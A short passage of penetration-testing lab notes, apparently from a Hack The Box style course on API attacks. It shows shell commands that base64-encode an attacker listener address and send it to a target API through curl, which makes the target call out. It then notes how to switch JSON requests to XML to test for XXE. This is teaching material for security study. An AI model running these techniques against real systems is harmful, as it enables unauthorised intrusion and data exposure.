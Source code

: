 ```shell-session
Ross22@htb[/htb]$ echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64
Ross22@htb[/htb]$ curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"
```

- [ ] Check for XXE on APIs



> [!NOTE]
> Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the `Content-Type` header to `application/xml`, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm). If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.

